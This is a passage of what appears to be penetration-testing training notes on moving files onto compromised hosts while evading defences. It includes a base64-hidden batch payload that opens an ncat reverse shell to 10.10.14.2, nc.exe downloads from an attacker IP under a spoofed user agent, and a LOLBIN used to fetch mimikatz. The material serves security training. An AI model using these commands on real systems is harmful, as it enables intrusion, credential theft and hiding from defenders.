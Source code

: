 ### Evasion

#### base64

(See the section above about it)  

In some cases, we may not be able to transfer a file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:  

- `base64 shell -w 0`

Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:  

- `echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ..lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`

In a windows target we can do this:  

```cmd
echo QGVjaG8gb2ZmCkM6XHRlbXBcbmNhdC5leGUgMTAuMTAuMTQuMiA0NDMgLWUgY21kLmV4ZQo= > data.b64
certutil -decode data.b64 evil.bat
```


#### Changing UserAgent

- `[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl` list out user agent in Powershell
- `Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"` Request with Chrome User Agent from our target machine
- `nc -lvnp 80` with our nc listener we then get our file in our attack machine

#### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

- Transferring File with GfxDownloadWrapper.exe `GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"`

- [LOLBAS](https://lolbas-project.github.io/)
- [GTFOBins](https://gtfobins.github.io/)

## Resources

{% embed url="https://academy.hackthebox.com/" %} File Transfers on HTB Academy {% endembed %}  
{% embed url="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" %} Transfer files (Post explotation) – CheatSheet - PABLO PLAZA MARTÍNEZ {% endembed %}
